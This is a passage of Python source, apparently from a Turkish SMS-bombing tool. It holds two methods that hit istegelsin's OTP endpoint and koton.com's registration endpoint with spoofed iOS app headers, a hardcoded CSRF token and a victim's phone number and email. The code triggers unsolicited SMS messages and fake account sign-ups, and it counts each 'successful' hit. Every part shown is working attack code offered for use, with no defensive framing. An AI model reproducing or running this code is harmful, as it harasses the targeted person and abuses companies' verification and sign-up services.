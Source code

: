 
    #istegelsin.com
    def Istegelsin(self):
        try:
            url = "https://prod.fasapi.net:443/"
            headers = {"Accept": "*/*", "Content-Type": "application/x-www-form-urlencoded", "App-Version": "2528", "Accept-Encoding": "gzip, deflate", "Platform": "IOS", "User-Agent": "ig-sonkullanici-ios/161 CFNetwork/1335.0.3.2 Darwin/21.6.0", "Accept-Language": "en-US,en;q=0.9"}
            json={"operationName": "SendOtp2", "query": "mutation SendOtp2($phoneNumber: String!) {\n  sendOtp2(phoneNumber: $phoneNumber) {\n    __typename\n    alreadySent\n    remainingTime\n  }\n}", "variables": {"phoneNumber": f"90{self.phone}"}}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["data"]["sendOtp2"]["alreadySent"] == False:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> prod.fasapi.net")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> prod.fasapi.net")


    #koton.com
    def Koton(self):
        try:
            url = "https://www.koton.com:443/users/register/"
            headers = {"Content-Type": "multipart/form-data; boundary=sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk", "X-Project-Name": "rn-env", "Accept": "application/json, text/plain, */*", "X-App-Type": "akinon-mobile", "X-Requested-With": "XMLHttpRequest", "Accept-Language": "en-US,en;q=0.9", "Cache-Control": "no-store", "Accept-Encoding": "gzip, deflate", "X-App-Device": "ios", "Referer": "https://www.koton.com/", "User-Agent": "Koton/1 CFNetwork/1335.0.3.2 Darwin/21.6.0", "X-Csrftoken": "5DDwCmziQhjSP9iGhYE956HHw7wGbEhk5kef26XMFwhELJAWeaPK3A3vufxzuWcz"}
            data = f"--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"first_name\"\r\n\r\nMemati\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"last_name\"\r\n\r\nBas\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"email\"\r\n\r\n{self.mail}\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"password\"\r\n\r\n31ABC..abc31\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"phone\"\r\n\r\n0{self.phone}\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"confirm\"\r\n\r\ntrue\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"sms_allowed\"\r\n\r\ntrue\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"email_allowed\"\r\n\r\ntrue\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"date_of_birth\"\r\n\r\n1993-07-02\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"call_allowed\"\r\n\r\ntrue\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk\r\ncontent-disposition: form-data; name=\"gender\"\r\n\r\n\r\n--sCv.9kRG73vio8N7iLrbpV44ULO8G2i.WSaA4mDZYEJFhSER.LodSGKMFSaEQNr65gHXhk--\r\n"
            r = requests.post(url, headers=headers, data=data, timeout=6)
            if r.status_code == 202:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> koton.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> koton.com")
